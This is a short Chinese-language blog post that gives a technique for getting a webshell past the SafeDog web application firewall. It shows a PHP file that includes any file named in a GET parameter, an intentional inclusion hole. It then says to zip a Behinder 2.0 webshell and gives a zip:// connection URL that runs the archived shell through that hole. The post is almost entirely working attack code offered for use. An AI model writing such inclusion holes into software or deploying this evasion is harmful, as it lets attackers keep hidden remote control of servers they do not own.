 ```yaml
---
layout: post
title: 压缩流过狗
tags: [技巧]
comments: true
---
```


.

>b.php

```
<?php

$file=@$_GET[x];
include $file;
```

>a.zip

```
打包Webshell，当前使用的是冰蝎2.0的PHP Webshell
```

 >冰蝎连接： http://192.168.74.141/Troj/b.php?x=zip://C:\xampp\htdocs\Troj\a.zip%23a.php

 ```
 不过要注意 zip://[文件绝对路径]#webshell
 ```

 ![zip](https://cijian00.github.io/img/bypass/zip_bypass.png)
